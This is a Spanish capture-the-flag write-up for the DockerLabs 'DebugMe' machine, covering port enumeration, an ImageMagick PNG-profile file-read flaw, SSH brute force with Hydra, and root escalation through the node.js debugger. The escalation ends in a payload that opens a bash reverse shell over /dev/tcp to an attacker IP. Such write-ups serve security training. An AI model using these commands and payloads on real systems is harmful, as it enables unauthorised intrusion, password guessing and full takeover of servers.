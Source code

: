 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-es
featured: true
draft: false
ogImage: "assets/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  Este desafío de ciberseguridad guía a los participantes a través de una intrusión en un servidor. El proceso implica la enumeración de servicios, la explotación de una vulnerabilidad de LFI, el acceso a SSH mediante fuerza bruta y la escalada de privilegios a través de un proceso de node.js.
lang: es
---
```


Este desafío de ciberseguridad, disponible en <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guía a los participantes a través de una intrusión en un servidor. El proceso implica la enumeración de servicios, la explotación de una vulnerabilidad de LFI, el acceso a SSH mediante fuerza bruta y la escalada de privilegios a través de un proceso de node.js para lograr acceso root.

## Tabla de contenido 

## Enumeración

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

Visitamos el sitio web en los puertos 80 y 443, y aparece la misma página. Parece ser una herramienta donde podemos seleccionar una imagen y las diferentes versiones de tamaño que queremos para la imagen.

![Resize image](/assets/debugme/image-2.png)

Al enviar el formulario con una imagen y diferentes versiones, las muestra en una página.

![Result](/assets/debugme/image-3.png)

Hacemos un poco de fuzzing en el servicio web utilizando gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Encontramos el clásico info.php, con información de PHP.

![gobuster](/assets/debugme/image-4.png)

En `/info.php`, encontramos un montón de extensiones PHP instaladas y una versión de PHP un poco desactualizada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

También vemos que los módulos `GD` y `Image Magick` están instalados, lo que puede utilizarse para el servicio de transformación de imágenes.

## Intrusión

Es probable que existan diferentes maneras de realizar la intrusión; en este caso, optamos por una posible LFI (creo que esto sería LFI, pero no estoy seguro) que ocurre durante la transformación de ImageMagick.

Más información en:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Siguiendo las instrucciones de hackplayers, instalamos las dependencias necesarias:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Usamos un PNG y añadimos el campo de perfil con la ruta que queremos inyectar. Esto creará el archivo pngout.png.

![pngcrush](/assets/debugme/image-5.png)

Verificamos que se haya añadido correctamente.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Ahora usamos la imagen pngout.png en el servicio web, seleccionamos un tamaño y hacemos clic en "Resize".

![Resize payload](/assets/debugme/image-7.png)

Aparecen las dos imágenes, hacemos clic derecho en una y la descargamos en nuestro Kali, nombrándola resultado.png.

![alt text](/assets/debugme/image-8.png)

Verificamos si los datos se han filtrado en el perfil.

```bash
identify -verbose resultado.png
```

![alt text](/assets/debugme/image-9.png)

Parece que los datos se filtraron correctamente. Copiamos todos los bytes hexadecimales del perfil y los ponemos en una sola línea. Luego, los incluimos en el siguiente Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

Y el resultado:

![alt text](/assets/debugme/image-10.png)

Genial, ahora tenemos un LFI, y podemos ver que hay un usuario llamado `lenam` y otro llamado `application`.

### Fuerza Bruta SSH

Si intentamos buscar otros archivos interesantes, no encontramos nada. Intentamos un ataque de fuerza bruta con el usuario `lenam` utilizando Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Con un poco de paciencia, encontramos la contraseña SSH para el usuario lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Escalada de Privilegios

Accedemos vía SSH utilizando el usuario `lenam` y la contraseña `loverboy`.

![alt text](/assets/debugme/image-12.png)

Vemos que podemos ejecutar el comando `/bin/kill` como root con la contraseña de lenam.

También observamos los procesos que está ejecutando root y vemos que se está ejecutando un proceso de node.js.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

Verificamos si hay puertos locales abiertos y encontramos los puertos 8000 y 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

El puerto 8000 parece ser una aplicación node.js.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Como podemos matar cualquier proceso, intentamos abrir el depurador de node.js enviando una señal `SIGUSR1` al proceso de node.js. Esto debería reiniciar la aplicación node.js con el puerto de depuración abierto (por defecto, el puerto 9229) y accesible a través de websockets.

Más información:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Para obtener el PID del proceso de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

El comando completo:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verificamos si el puerto de depuración e inspección 9229 ahora está abierto.

![port 9229](/assets/debugme/image-16.png)

¡Bingo! Funcionó. Ahora ingresamos a la aplicación node.js con el inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

Escuchamos con netcat.

```bash
nc -lvnp 5000
```

Y ejecutamos la siguiente carga útil en la consola de depuración, reemplazando la IP 10.0.2.15 con la tuya.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Felicidades, ahora somos root.
